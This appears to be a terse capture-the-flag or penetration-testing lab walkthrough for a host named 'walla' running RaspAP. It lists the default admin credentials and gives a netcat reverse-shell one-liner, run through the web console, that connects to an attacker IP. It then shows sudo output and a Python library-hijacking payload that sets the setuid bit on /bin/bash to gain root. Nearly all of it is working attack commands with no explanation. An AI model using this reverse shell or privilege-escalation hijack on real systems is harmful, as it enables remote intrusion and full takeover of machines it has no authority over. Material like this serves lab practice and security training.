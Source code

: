 ____

> [!info]
> IP=192.168.213.97


# 8091 - http

RaspAP

Default creds:
- Username: admin.
- Password: secret.

## /includes/webconsole.php
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.204 4444 >/tmp/f
```

# PrivEsc

```bash
sudo -l
User www-data may run the following commands on walla:
    (ALL) NOPASSWD: /usr/bin/python /home/walter/wifi_reset.py
```

```python
#!/usr/bin/python
import sys

try:
        import wificontroller
except Exception:
        print "[!] ERROR: Unable to load wificontroller module."
        sys.exit()

wificontroller.stop("wlan0", "1")
wificontroller.reset("wlan0", "1")
wificotroller.start("wlan0", "1")
```

## Library Hijacking
wificontroller.py

```python
import os
os.system("chmod 4777 /bin/bash")
```